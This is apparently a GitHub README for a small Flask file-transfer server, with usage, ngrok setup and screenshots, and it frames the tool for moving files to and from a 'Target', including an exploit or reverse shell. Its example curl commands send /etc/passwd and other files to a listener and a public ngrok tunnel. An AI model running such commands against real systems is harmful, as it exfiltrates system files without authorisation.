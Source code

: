 # Uploader
Simple Flask App to Upload Files

Perfect for spinning up if needing to transfer files over via the command line or browser.
```python
python Uploader.py -h
usage: Uploader.py [-h] [-P PORT] [-H HOST] [--upload-folder UPLOAD_FOLDER]

Simple Flask File Uploader

options:
  -h, --help            show this help message and exit
  -P PORT, --port PORT  Port Number to listen On - Default 5000
  -H HOST, --host HOST  Interface to listen on - Default all
  --upload-folder UPLOAD_FOLDER
                        Upload file path - Default 'cwd'
```

Spins up a Flask App
```python
python Uploader.py -H 192.168.0.29 -P 8000 --upload-folder C:\Users\gd\Downloads
 * Serving Flask app 'Uploader'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://192.168.0.29:8000
Press CTRL+C to quit
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST / HTTP/1.1" 302 -
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST /done HTTP/1.1" 200 -
```

## In Browser
Can Upload and also Download Files to the Target if needed

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/30baa38a-1a2b-4d4d-a8cc-5909cbcbca1d)


## Command Line
```bash
curl -L -s -X POST -F "file=@/etc/passwd" http://192.168.0.29:8000
File uploaded!

curl -L -s -X POST -F "file=@ips.txt" https://854d-11-11-11-11.ngrok-free.app

```
## ngrok Setup if accessing over the Internet

```
python Uploader.py -H 127.0.0.1 -P 5000 --upload-folder C:\Uploader\Files

.\ngrok.exe http 5000 --basic-auth="gd:SuperPassword"
```

![ngrok](https://github.com/deeexcee-io/Uploader/assets/130473605/269b7883-4615-469a-b958-5b15cdc0d668)

Enter Creds and you're good

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ebd9e686-6cbc-469d-a187-3b3bec50573e)

List is Dynamically Updated to show current files

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/5b157912-b0ae-48e8-8006-84c2f476f437)


![image](https://github.com/deeexcee-io/Uploader/assets/130473605/8ff1ffe1-c314-4781-a520-53ea4917ceee)



All FIles in the Current Directory are also Served and can be Downloaded if needed. For example transferring over an exploit/reverse shell

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ab51663d-fb7a-43a1-a99f-ac444fc71f27)





